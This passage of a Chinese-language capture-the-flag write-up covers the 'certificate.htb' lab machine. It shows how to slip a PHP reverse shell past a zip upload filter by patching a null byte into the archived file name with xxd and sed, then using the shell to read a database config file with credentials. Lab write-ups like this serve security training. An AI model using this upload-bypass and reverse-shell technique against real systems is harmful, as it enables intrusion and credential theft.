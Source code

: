 webshell我们使用kali自带的`/usr/share/webshells/php/php-reverse-shell.php`

复制一份修改一下ip和端口，zip压缩后上传：

然后页面显示压缩包中包含有非法后缀名的文件。难道这样就无法利用了吗？

其实不然。php<5.3.4时候，有一个比较知名的%00截断。是php语言的漏洞，它在读取文件名的时候读到空字节就认为读完了，比如1.php%00.jpg，php会保存为1.php。这里php版本是8，无法利用这个漏洞，但是它的zip在解压的时候也会触发零字节截断。零字节截断的原理都是相同的，就是%00最终被解析cha(0),而在ASCII码0对应的为空字符，当**在字符串中有空字符时会导致后面的字符被丢弃**。

zip在解压的时候读取压缩包中的元数据中的文件名，读到零字节的时候也会认为文件名结束，导致文件名被截断。

我们将webshell改名为file.php..pdf，用python的zipfile模块压缩。然后通过二进制编辑器比如imhex修改zip的元数据中的文件名，将第一个点修改为零字节即可。这样文件名就变成了file.php\0.pdf。解压缩出来的文件就变成了file.php。这里也可以直接在burpsuite中修改二进制，或者使用一些linux命令行中的二进制工具比如od,hexdump,xxd。实测xxd最为简单好用，自带颜色和字节对应的ascii码,可以如下操作：

```
# 生成十六进制转储
xxd test.zip > test.hex

# 修改（将第二个点2e改为00）
# 原始：66 69 6c 65 2e 70 68 70 2e 2e 70 64 66
# 修改：66 69 6c 65 2e 70 68 70 00 2e 70 64 66

# 使用sed精确替换
sed -i 's/70 2e 2e 70/70 00 2e 70/' test.hex

# 转换回二进制
xxd -r test.hex > test_modified.zip
```

当然有GUI的imhex和010Editor更加简单。

修改完成之后可以本地解压确认一下：

```
└─# unzip -l orange.zip                   #-l进行预览不真正解压
Archive:  orange.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     5493  2025-10-12 15:11   my_reverse.php
---------                     -------
     5493                     1 file
```

上传文件，点击here发现找不到url，因为它默认访问的是file.php..pdf，我们手动访问file.php，即可成功连接。

注意这里使用的writeup给的`reverse_shell.php`。这个php脚本更加现代，用kali自带的webshells中的反弹shell的php脚本无法成功反弹。

拿到shell后发现是cmd环境，我们`di`r +  `cd ..`找一找敏感文件，发现一个db.php，大概率有连数据库的账户密码：

```
C:\xampp\htdocs\certificate.htb>type db.php
<?php
// Database connection using PDO
try {
    $dsn = 'mysql:host=localhost;dbname=Certificate_WEBAPP_DB;charset=utf8mb4';
    $db_user = 'certificate_webapp_user'; // Change to your DB username
    $db_passwd = 'cert!f!c@teDBPWD'; // Change to your DB password
    $options = [
        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    ];
    $pdo = new PDO($dsn, $db_user, $db_passwd, $options);
} catch (PDOException $e) {
    die('Database connection failed: ' . $e->getMessage());
}
?>
```
